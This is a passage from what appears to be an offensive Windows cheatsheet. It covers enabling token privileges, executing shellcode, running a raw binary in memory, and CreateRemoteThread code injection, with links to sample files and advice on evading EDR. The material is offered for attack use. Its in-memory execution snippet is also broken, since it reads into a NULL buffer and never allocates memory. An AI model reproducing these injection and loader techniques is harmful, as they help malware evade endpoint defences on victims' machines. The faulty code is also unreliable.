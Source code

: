 ```cpp

    CloseHandle(hToken); 
}
```

This function will open your current process token, then adjust it to **SE_PRIVILEGE_ENABLED** privilege, wich is corresponding to the target privilege.

# Execute some binary

## Classic shellcode execution

> Code sample : https://github.com/matthieu-hackwitharts/Win32_Offensive_Cheatsheet/blob/main/shellcode_samples/classic.cpp

## DLL Execute

This technique had some good successful bypass rates few years ago; however, because of increasing number of EDR and other endpoint solutions, writing on disk should as possible be avoided.

> Code sample : https://github.com/matthieu-hackwitharts/Win32_Offensive_Cheatsheet/blob/main/shellcode_samples/dll_classic.cpp

## Raw File To PE

You can execute some raw binary file in memory by allocate its size space in a  memory region :

```cpp
HANDLE binfile = CreateFileA("myfile.bin",GENERIC_READ,NULL,NULL,OPEN_EXISTING,NULL,NULL);
SIZE_T size = GetFileSize(binfile,NULL);
LPVOID buffer=NULL;
ReadFile(binfile,buffer,size,NULL,NULL);
HANDLE hProc = GetCurrentProcess();

CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
CloseHandle(hProc);
```

<br>

# Code injection techniques

## CreateRemoteThread injection

Simply write your shellcode in previously allocated memory space inside the target process. (Not OPSEC)

> Code sample : https://github.com/matthieu-hackwitharts/Win32_Offensive_Cheatsheet/blob/main/shellcode_samples/create_thread_injection.cpp
